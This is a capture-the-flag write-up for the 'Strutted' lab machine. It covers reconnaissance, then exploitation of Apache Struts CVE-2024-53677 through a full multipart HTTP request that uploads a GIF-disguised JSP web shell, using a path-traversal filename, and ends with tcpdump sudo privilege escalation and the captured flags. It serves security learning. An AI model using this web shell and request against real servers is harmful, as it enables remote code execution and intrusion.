

# Strutted

**OS:** Linux  
**IP:** 10.10.11.59  
**Complete:** Yes  
**Created time:** August 20, 2025 9:12 PM  
**Level:** Medium  
**Status:** Done

---

## Overview

> Strutted is a medium-difficulty Linux machine that features a web application built with Apache Struts. The vulnerable version of Struts (6.3.0.1) is affected by [CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677), which leads to an arbitrary file upload and RCE.

- Vulnerability: _Path Traversal in file upload_ → allows attackers to override `FileName` parameters → write arbitrary files under webroot → **RCE**.
- Reference: [NVD – CVE-2024-53677](https://nvd.nist.gov/vuln/detail/CVE-2024-53677)
- Additional Deep-Dive: [Y4tacker Blog](https://y4tacker.github.io/2024/12/16/year/2024/12/Apache-Struts2-%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E9%80%BB%E8%BE%91%E7%BB%95%E8%BF%87-CVE-2024-53677-S2-067/#S2-067%E4%B9%8B%E5%8D%95%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E5%9C%BA%E6%99%AF%E7%BB%95%E8%BF%87)

---

## Reconnaissance

### Nmap Results

```bash
nmap -sC -sV -oN nmap.txt 10.10.11.59
````
```bash
22/tcp open  ssh     OpenSSH 8.9p1 terUbuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)

80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Strutted™ - Instant Image Uploads
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
````
- Open ports confirm SSH and a web app on port 80

### Port 80 - HTTP
The website allows users to upload and share images.
- source code was downloadable as `Docker Image`, containing:
- `tomcat-users.xml` with plaintext creds
- `pom.xml` -> Struts version `6.3.0.1`
- `upload.java`- > Weak MIME-type checks (bypass possible)




- Upload filter only checks headers (`GIF89a`, JPEG, PNG) → polyglot bypass.  
- Struts automatically binds `UploadFileName` from request → attacker can manipulate path/filename.  
- Bug in `FileUploadInterceptor` allows overriding `*FileName` params.  

---
## Exploit
1. Upload a polyglot file(`GIF89a` header + JSP paylaod).
2. Override filename with `../../shell.jsp`.
3- File lands in webroot -> visit `/shell.jsp` -> **RCE**.

````bash
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28595235431535184633711166866
Origin: http://strutted.htb
Connection: close
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=17F3A16170C3E0A242D72A0BBF82A633
Upgrade-Insecure-Requests: 1
Content-Length: 1170

-----------------------------28595235431535184633711166866
Content-Disposition: form-data; name="Upload"; filename="test.gif"
Content-Type: image/gif

GIF89a
<%@ page import="java.io.*, java.util.*, java.net.*" %>
<%
    String action = request.getParameter("action");
    String output = "";
    try {
        if ("cmd".equals(action)) {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                Process p = Runtime.getRuntime().exec(cmd);
                BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
                String line;
                while ((line = reader.readLine()) != null) {
                    output += line + "\n";
                }
                reader.close();
            }
        }
    } catch (Exception e) {
        output = "Error: " + e.getMessage();
    }
    response.setContentType("text/plain");
    out.print(output);
%>
-----------------------------28595235431535184633711166866
Content-Disposition: form-data; name="top.UploadFileName"

../../shell.jsp
-----------------------------28595235431535184633711166866--
````


**User flag:** e95aedf1a8dc69e47e460795e5bd4328

---
## Privilege Escalation
Running `sudo -l` on **james** shows `tcpdump` runnable as root (no password).

Exploit: [GTFOBins - tcpdump](https://gtfobins.github.io/gtfobins/tcpdump/)


**Root flag:** d89b839b31ac202b028d3d567dff965c


